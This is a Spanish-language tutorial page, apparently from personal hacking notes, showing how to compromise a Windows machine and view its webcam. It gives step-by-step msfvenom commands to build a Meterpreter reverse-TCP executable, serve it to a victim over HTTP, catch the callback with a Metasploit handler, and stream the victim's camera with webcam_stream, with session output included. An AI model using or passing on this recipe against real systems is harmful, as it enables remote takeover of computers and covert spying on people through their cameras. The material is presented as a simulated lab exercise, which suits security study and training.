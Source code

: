 ```yaml
---
icon: camera-web
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Visualizar Webcam en Windows

## <mark style="color:purple;">Vulnerar windows</mark>

Crearemos un archivo malicioso que la persona se descargara en internet, pero nosotros simularemos eso para tener una shell en metasploit de la maquina victima de windows.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Una vez creada la aplicacion maliciosa, abriremos un servidor de `python3` que es donde se simulara nuestra pagina web a la que el usuario tiene que entrar para descragarse el `.exe` malicioso.

```shell
python3 -m http.server 80
```

> Maquina windows

En la maquina windows, nos metemos a internet y ponemos la siguiente direccion URL.

```
URL = http://<IP_ATACKER>/shell.exe
```

Y esto nos descargara la aplicacion maliciosa, una vez hecho eso, configuraremos la escucha en metasploit antes de darle a ejecutar.

> Maquina atacante

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos el exploit de la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Ejecutamos el exploit y en ese momento estaria a la escucha, por lo que ejecutaremos el `.exe` para que nos de una shell.

```shell
run
```

Una vez ejecutado el `.exe` en la maquina windows, si volvemos a metasploit donde tenemos la escucha, obtendremos una shell con la maquina windows.

Info:

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.141
[*] Meterpreter session 1 opened (192.168.5.199:7777 -> 192.168.5.141:49174) at 2024-08-02 13:34:09 +0200

meterpreter >
```

## <mark style="color:purple;">Vulnerar webcam</mark>

Vemos la lista de camaras que tiene activas.

```shell
webcam_list
```

Info:

```
1: Microsoft LifeCam Cinema(TM)
```

Vemos que tiene una, por lo que la ejecutaremos de la siguiente manera.

```shell
webcam_stream 1
```

Info:

```
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/dise0/Desktop/cPHdyMaU.html
[*] Streaming...
```

Y a parte de ponerte esto por terminal, se te habrira el navegador con la camara activa viendo lo que pasa a tiempo real como se muestar en la siguiente imagen.

<figure><img src="../.gitbook/assets/imagen_2024-08-02_162253328.png" alt=""><figcaption></figcaption></figure>

Por lo que ya habriamos vulnerado una webcam.

